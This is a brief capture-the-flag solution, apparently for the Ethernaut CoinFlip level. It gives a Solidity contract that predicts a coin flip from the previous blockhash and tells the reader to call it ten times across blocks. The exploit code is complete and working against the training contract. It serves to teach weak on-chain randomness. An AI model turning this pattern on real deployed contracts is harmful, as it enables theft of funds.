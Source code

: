 Deploy the following contract to the same network

```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.6.0;

  interface CoinFlip {
      function flip(bool) external returns (bool);
  }

contract Exploit {

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function exploit(address _who) public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(_who).flip(side);
    }
}
```

call exploit() 10 times, making sure to wait enough for a new block

